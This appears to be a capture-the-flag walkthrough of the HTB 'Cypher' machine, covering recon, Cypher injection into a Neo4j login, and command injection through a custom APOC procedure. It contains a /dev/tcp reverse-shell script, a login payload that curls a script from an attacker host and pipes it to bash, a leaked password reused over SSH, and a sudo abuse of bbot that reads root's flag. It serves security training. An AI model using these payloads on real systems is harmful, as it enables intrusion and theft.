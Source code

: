 ## Recon
-> nmap :
``` bash
╰─ nmap -sC -sV -p- -Pn --min-rate 10000 10.10.11.57 -oN Cypher-nmap 
Nmap scan report for 10.10.11.57
Host is up (0.093s latency).
Not shown: 62691 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-> Add `cypher.htb` to `/etc/hosts`:
`10.10.11.57 cypher.htb`

### source code :
i noticed in the source code a comment to make into consideration for later `TODO: don't store user accounts in neo4j` 
:
```javascript
<script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
```

-> This gives me the idea that neo4j handles backend authentication process

-> When i try an xss paylod i get this error :
`<IMG SRC= onmouseover="alert('xxs')">`

![[Pasted image 20250423223733.png]]

-> Indicating a **Cypher Injection** (injection for GQL), where there is a cypher query to fetch data like this :
```GQL
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<USER_INPUT>' RETURN h.value AS hash
```

### directory fuzzing :


```bash
╰─ gobuster dir -u cypher.htb -w /usr/share/dirb/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 4562]
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
```

![[Pasted image 20250423230317.png]]

#### APOC 
->Neo4j supports the APOC (Awesome Procedures on Cypher) Core library. The APOC Core library provides access to user-defined procedures and functions which extend the use of the [Cypher query language](https://neo4j.com/docs/cypher-manual/current/introduction/) into areas such as data integration, graph algorithms, and data conversion.


-> In the jar we find :
```java
public class CustomFunctions {  
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)  
    @Description("Returns the HTTP status code for the given URL as a string")  
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {  
            url = "https://" + url;  
        }  
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};  
        System.out.println("Command: " + Arrays.toString(command));  
        Process process = Runtime.getRuntime().exec(command);  
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));  
        StringBuilder errorOutput = new StringBuilder();
```

-> This code enables us to do a remote code execution 
### shell creation

First create a shell script to upload to the server :
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.16.86/4444 0>&1" > shell.sh
```

-> Use a python http server to upload it 
```bash
python3 -m http.server 80
```
-> Run a nc listner in the declared port in shell.sh
```bash
nc -lvnp 4444
```

-> In burpsuite use below to gain foothold to the system (upload the shell and execute it)

```json
"username":"haha' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.86/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"test"
```

-> Here we get that the shell is uploaded :
```bash
╰─ sudo python3 -m http.server 80

[sudo] password for med: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [24/Apr/2025 00:10:40] "GET /shell.sh HTTP/1.1" 200 -
```

-> And we have a shell :
```bash
╰─ nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 10.10.11.57 40898
bash: cannot set terminal process group (1446): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

-> We find a gfile called `bbot_preset.yml`

```bash
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

-> We connect using ssh to `graphasm` and we got user flag :
```bash
╰─ ssh graphasm@cypher.htb
graphasm@cypher.htb's password: 

graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
```

-> When we use `sudo -l` to see the abilities of our user we fin :
```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot

```
-> Our user can run an app caller bbot (which is an osint app)
-> After a bit of research i found a way to get around it and get the flag inspired by this amazing article : https://azraeldeathangel.medium.com/privilege-escalation-in-linux-via-bbot-binary-92558b4c7f30

-> where i will abuse the yara functionnality by specifying the root flag as a yara rule, the binary bbot then will display it's content in the debug information like this :

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...

[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
...
```
